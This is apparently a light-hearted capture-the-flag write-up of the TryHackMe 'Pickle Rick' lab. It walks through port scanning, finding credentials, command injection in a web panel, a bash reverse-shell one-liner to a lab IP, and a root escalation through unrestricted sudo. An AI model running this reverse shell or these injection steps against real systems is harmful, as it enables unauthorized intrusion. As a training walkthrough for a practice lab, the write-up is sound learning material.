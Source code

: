 ```yaml
---
title: "TryHackMe: Pickle Rick"
date: 2020-11-11 00:00:00 +/-TTTT
categories: [Writeups, TryHackMe, easy]
tags: [tryhackme, easy]     # TAG names should always be lowercase
---
```


> **Title**: Pickle Rick
>
>**Platform**: TryHackMe
>
>**Difficulty**: Easy
>
>**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

<img src= "https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg" width="250" height="250" alt=logo.png> <br>

[Challenge Link](https://tryhackme.com/room/picklerick)

 > [!NOTE]
 This writeup does not divulge the flags.

I am a big Rick & Morty fan so this was the natural first pick to kick off the write ups! Let’s get **Schwiftyyyyyyyy…**

## Enumeration

Let’s begin with our favorite tool in the whole wide world..`NMAP`!

```js
root@ip-10-10-2-8:~# nmap -sS 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:40 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds
```

And with a few other switches..

```javascript
root@ip-10-10-2-8:~# nmap -sC -sV 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:41 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ca:29:35:20:59:12:22:6d:b5:9e:71:a9:13:ae:74:c1 (RSA)
|   256 4d:ad:85:45:39:1f:4e:e4:c5:f5:27:14:57:d3:81:fd (ECDSA)
|_  256 ff:d6:fd:35:1d:6e:2b:e8:66:8b:33:20:eb:b2:f4:35 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```

Navigating to Port 80 we are greeted with Grandpa RICK

![image](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527366805/b4a313e6-97de-49cc-ab3f-4243af9103a7.png)

Viewing the source of the `index.html` page we see the following

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527391473/f6847fe0-61a7-4fb2-b44b-f3c37d9137c0.png)

Now let’s enumerate the usual suspects using `nikto`

```javascript
root@ip-10-10-2-8:~# nikto -h <http://10.10.238.189>
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.238.189
+ Target Hostname:    ip-10-10-238-189.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-12-28 20:44:37 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-12-28 20:44:47 (GMT0) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

* `robots.txt`
    
    I couldn’t stop laughing when I saw the entry
    
    ![image3](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527420086/9bb35c2a-bf34-4351-b62e-833c0c7a0da7.png)
    
* `login.php`
    
    Let’s try a few standard combinations for usernames and passwords
    

![image4](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527440172/6d9a96d0-79f7-4802-8d13-b367a7d3c0ab.png)

Username found earlier with the `robots.txt` entry combination works and we are in!

We are now logged into a `portal.php`

![image5](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527456037/e5603924-17d9-47fa-8b09-b628685f1fb2.png)

All the other tabs redirect to `denied.php` so we will investigate the command panel with something simple for a command injection

`Cat` the first one doesn’t work and we get a Command disabled message so let’s look at the `clue.txt`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527470931/acaa5158-d97b-4a2c-b333-37cbb0d550ca.png)

`Cat` and `tail` and similar commands do not work but we notice that `grep` works, now we use a shwifty little trick to read the text file like so

```jsx
grep -v "test" filename
```

Voila! We have our first ingredient!

## I Smell a Shell Morty!

Let’s try to pop a shell and we see we get a similar response with `sh` and a few moments later this works

```bash
bash -c 'sh -i >& /dev/tcp/10.10.2.8/4444 0>&1'
```

We read the `clue.txt` and go to `/home` and we see the second ingredient folder and go grab it.

You don't necessarily need to pop a shell, you can get by with command injection in the panel we saw earlier but shells are fun and I like poppin' them.

## One Step Closer....All powerful Root!

Now for the final ingredient which is root probably we see that the user `www-data`has sudo access and we run sudo -l to see what privileges our user has.

```bash
(ALL) NOPASSWD: ALL
```

Don't we just love when this happens?

```bash
sudo -i
```

We are root!

Head to the root directory and we have our final ingredient.

That's all for today folks, see you on the next one!
